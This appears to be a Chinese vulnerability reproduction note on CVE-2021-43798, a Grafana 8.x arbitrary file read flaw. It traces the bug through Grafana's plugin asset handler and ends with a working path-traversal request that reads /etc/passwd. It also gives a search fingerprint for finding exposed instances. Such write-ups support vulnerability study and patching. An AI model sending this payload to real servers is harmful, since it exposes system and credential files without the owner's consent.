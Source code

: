 # Grafana plugins 任意文件读取漏洞 CVE-2021-43798

## 漏洞描述

Grafana存在任意文件读取漏洞，通过默认存在的插件，可构造特殊的请求包读取服务器任意文件

## 漏洞影响

<a-checkbox checked>Grafana 8.x</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="Grafana_Labs-公司产品"</a-checkbox></br>

## 漏洞复现

登录页面

![img](../../../.vuepress/public/img/1638885570573-25d2b257-36c8-43a7-bf8f-f552193f6649.png)

下载源码进行本地分析

```php
https://codeload.github.com/grafana/grafana/zip/refs/tags/v8.3.0
```

根据漏洞找到 api.go 中的请求路径

![img](../../../.vuepress/public/img/1638885654432-3d019c1a-81fd-429d-9667-6c1e829b694e.png)

```php
r.Get("/public/plugins/:pluginId/*", hs.getPluginAssets)
```

跟踪对应的 getPluginAssets 方法

![img](../../../.vuepress/public/img/1638885718491-08933f1d-ee0f-4eaa-b5d7-859c4889d2b7.png)

从请求路径中获取 **/public/plugins/** 后的参数赋值给 **pluginID,** 然后再被拼接至 **pluginFilePath** 进入文件读取片段

```go
requestedFile := filepath.Clean(web.Params(c.Req)["*"])
pluginFilePath := filepath.Join(plugin.PluginDir, requestedFile)
```

![img](../../../.vuepress/public/img/1638886241407-a47b7e8e-47fb-4481-8719-c532b51a5fa0.png)

也就是说通过默认存在的插件来拼接文件路径构造请求进行文件读取

```go
plugin, exists := hs.pluginStore.Plugin(c.Req.Context(), pluginID)
if !exists {
		c.JsonApiErr(404, "Plugin not found", nil)
		return
	}
```

插件路径 **public/app/plugins/panel**

![img](../../../.vuepress/public/img/1638886549610-16b0f045-996a-4e0d-86db-4b6c83a3a989.png)

构造请求

```go
/public/plugins/welcome/../../../../../../../../../etc/passwd
```

![img](../../../.vuepress/public/img/1638886726559-aa047e67-0bca-4b8c-bb07-4a9af6226e6e.png)